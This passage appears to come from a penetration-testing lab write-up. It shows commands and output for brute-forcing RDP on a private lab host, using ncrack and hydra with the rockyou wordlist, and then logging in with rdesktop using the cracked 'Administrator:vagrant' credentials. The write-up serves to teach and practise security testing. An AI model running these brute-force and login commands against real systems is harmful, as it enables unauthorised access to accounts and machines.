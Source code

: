 ```bash
┌──(kali㉿kali)-[~]
└─$ ncrack -vv -T 3 -u Administrator -P /usr/share/wordlists/rockyou.txt rdp://172.30.1.21

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-06-13 06:46 BST

Discovered credentials on rdp://172.30.1.21:3389 'Administrator' 'vagrant'
```

### 3.2 Using Hydra to guest passwords online
Hydra is another popular online cracking tool which has multiple uses to target web pages and protocols, a great tool to have. Same target as 3.1:

```bash
sudo hydra -t 4 -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://172.30.1.21
```
- Results:
![Hydra-cracking-demo](Hydra-cracking-demo.png)

### 3.3 Exploiting Remote Desktop Protocol (RDP)
With the password cracked from 3.1 and 3.2 I can use the `rdesktop` tool to remotely access which should give me full view and control of the user which is `Administrator:vagrant`

```bash
rdesktop -u Administrator -p vagrant 172.30.1.21:3389 -g 1280x1024
```